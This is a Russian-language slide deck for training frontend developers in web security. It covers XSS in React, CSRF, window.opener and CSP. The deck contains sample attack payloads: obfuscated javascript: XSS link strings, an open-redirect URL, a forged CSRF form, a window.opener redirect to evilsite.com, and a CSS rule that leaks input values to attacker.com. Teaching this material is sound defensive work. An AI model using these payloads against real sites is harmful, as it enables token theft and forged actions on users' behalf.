

<!doctype html>
<html>
<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=no">
    <link rel="stylesheet" href="reveal/css/reveal.css">
    <link rel="stylesheet" href="reveal/css/theme/kontur-light.css" id="theme">
    <!-- Theme used for syntax highlighting of code -->
    <link rel="stylesheet" href="reveal/css/highlight/idea-for-light.css">
    <link rel="stylesheet" href="reveal/css/highlight/darkula-for-dark.css">

    <script defer src="reveal/js/head.min.js"></script>
    <script defer src="reveal/js/reveal.js"></script>
    <script defer src="reveal/initialize.js"></script>
    <script defer src="reveal/js/d3.min.js"></script>

    <title>Make Frontend Safe Again. Или как фронтендеру не быть виноватым во взломе сайта. </title>
</head>
<body>

<div class="reveal"><div class="slides">

<section data-markdown><script type="text/template">

# Make Frontend Safe ~~Again~~

<p style="text-align: center; font-weight: bold">Или как фронтендеру не быть виноватым во взломе сайта.</p>

</script></section>

<section data-markdown><script type="text/template">

## Поговорим про уязвимости

***

### Какие уязвимости вы знаете?

***

### Самый страшный зверь — XSS

>__XSS__ (Cross-Site Scripting) — тип атаки на веб-системы, заключающийся во внедрении в выдаваемую веб-системой
страницу вредоносного кода (который будет выполнен на компьютере пользователя при открытии им этой страницы).
<span style="position: absolute; right: 100px; margin-top: 30px">&copy; Wikipedia</span>


***

### Почему alert у вас на сайте — это страшно?

<div class="fragment" data-fragment-index="1">
<ul>
<li>украденные авторизационные токены
<li>выполнение действий от имени пользователей
<li>испорченый внешний вид и функциональность сайта
</ul>
</div>

***

### "Но у меня же Реакт! Я слышал, он безопасный"

<a href="https://reactjs.org/docs/introducing-jsx.html"
   class="fragment" data-fragment-index="1"
   target="_blank"></a>


***

### От чего спасает Реакт

```js
return (
    <input onChange={(_, value) => this.setState({value})}>

    Привет, {this.state.value}!
)
```

***

### Но на этом XSS не заканчиваются


</script></section>

<section data-markdown><script type="text/template">

## От чего не спасет Реакт

***

### Ссылки

```js
return (
    <input onChange={e => this.setState({link: e.target.value}) } />
    <a href={this.state.link}>Нажми меня</a>
)
```

***

### EvilLinks

- 'javascript: alert(1)'
- 'jav	ascript:alert('XSS');'
- 'jav&amp;#x09;ascript:alert('XSS');'
- ' &amp;#14;  javascript:alert('XSS');'
- &#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29
- &#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&
#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041

***

### Чем опасно?

### Как спастись?

***

### dangerouslySetInnerHTML

<ul>
    <li>Кто пользовался?
    <li class="fragment" data-fragment-index="1">Зачем это может быть полезно?
    <li class="fragment" data-fragment-index="2">В чем опасность?
</ul>

***

### iframes

```js
return (
    <input onChange={e => this.setState({link: e.target.value}) } />
    <div dangerouslySetInnerHTML={{__html: this.state.value}} />,
)
```

***

### youtube

```html
<iframe width="560" height="315"
         src="https://www.youtube.com/embed/GHhMJjPnezU" frameBorder="0"
         allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture"
         allowFullScreen />
```

***

### Вставка фреймов

- В чем опасность?
- Как спасаться?


***

### Сторонние библиотеки в разметке

- В чем может быть проблема?


***

### Например, маркдаун

```js
return (
    <input onChange={e => this.setState({link: e.target.value}) } />
    <div dangerouslySetInnerHTML={{__html: markdown(this.state.value)}} />
)
```
***

### Подключение любой библиотеки

Даже не делающей ничего с версткой


***

### window.location

- Что такое window.location?
- В чем может быть уязвимость?


***

### Простая уязвимость

<pre>
document.getElementById('container').innerHtml = location.pathname;
</pre>

***

### window.location

<pre>
    <code>&lt;html>&lt;body></code>
    <code>&lt;script src="/scripts/jquery-1.12.4.min.js">&lt;/script></code>
    <code>&lt;script>$.get(location.pathname + "?query=YetAnotherQuery", console.log);&lt;/script></code>
    <code>&lt;/body>&lt;/html></code>
</pre>


***

### Вариант эксплуатации 1

https://example.kontur.ru//entity

```js
location.pathname = //entity
```

***

### Вариант эксплуатации 2

https://example.kontur.ru//www.mydangeroussite.com/%5C../entity?query=123

```js
location.pathname = //www.mydangeroussite.com/entity?query=YetAnotherQuery
```

</script></section>

<section data-markdown><script type="text/template">

## Как от всего спастись?

***

<ul>
    <li>Белые списки протоколов, тегов, атрибутов
    <li class="fragment" data-fragment-index="1">Строгие проверки любого пользовательского ввода
    <li class="fragment" data-fragment-index="2">http-only cookie (не иметь возможности манипулировать токенами из js)
</ul>

***

### CSP

[Content-Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)

```
Content-Security-Policy: default-src 'self';
```

```
Content-Security-Policy: script-src 'self' www.google-analytics.com ajax.googleapis.com;
```

***

### Другие полезные заголовки

- [Strict-Transport-Security](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Strict-Transport-Security) —
только https
- [X-Frame-Options](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options) — запрет использовать
страницу в качестве iFrame
- [X-XSS-Protection](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection)

</script></section>

<section data-markdown><script type="text/template">

## Паттерны опасностей

***

### Задумайся, если пользователи могут

- вставлять ссылки
- вставлять видео из youtube, карты гугла...
- делать разметку в markdown

***

### ОПАСНОСТЬ!!!111

- вставка пользовательских данных в разметку без фреймворков
- вставка пользовательских данных в ссылки
- использование window.location
- dangerouslySetInnerHTML в Реакте
- передача управления сторонним библиотекам

</script></section>


<section data-markdown><script type="text/template">

## CSRF (Cross-site request forgery)

***

### CSRF Образец

На сайте злоумышленника:

```html
<form action="https://extern.kontur.ru/sendRequest" method="post">
    <input type="hidden" name="inn" value="38484334">
    <button type="submit">Посмотреть котиков!</button>
</form>
```

***

### Как спастись от CSRF

```html
<form action="https://extern.kontur.ru/sendRequest" method="post">
    <input type="hidden" name="csrf" value="1234:5ad02792a3285252e524ccadeeda3401">
    <input type="text" name="inn">
</form>
```

Но это не работает без серверного рендеринга

***

### Два стула

- http-only куки спасают от XSS, но не спасают от CSRF
- Авторизационные заголовки спасают от CSRF, но их можно увести при XSS

</script></section>

<section data-markdown><script type="text/template">

## window.opener

***

### Как проявляется

У нас на странице так:

```html
<a href="http://mail.ru" target="_blank">Котики!</a>
```

У злоумышленника так:

```js
window.opener.location.replace('https://evilsite.com')
```

***

### Как починить

- rel="noopener noreferrer"
- Промежуточная страница

</script></section>

<section data-markdown><script type="text/template">

## Дополнительные мысли

***

### localeStorage — это важно (может быть)

***

### same origin policy и CORS

***


### Подключение библиотеки со стилями


<div data-markdown class="fragment" data-fragment-index="1">
<pre>
#form2 input[value$='a'] {
    background-image: url(https://attacker.com/?a);
}
</pre>
</div>


</script></section>

<section data-markdown><script type="text/template">

### Больше информации

- [Поиграть в XSS](http://xss.school.sibears.ru/easy/0)
- [Статья от Димы Титаренко](https://staff.skbkontur.ru/profile/titarenko?action=feed&m=article-5abc8cb8339efc2a5443cd7f)
- [Записаться на блок по безопасности](https://wiki.skbkontur.ru/pages/viewpage.action?pageId=136448221) от Полины Зоновой
- [Поиграть во всякие разные уязвимости](https://www.hacksplaining.com/exercises/)


</script></section>


</div></div>
</body>
</html>
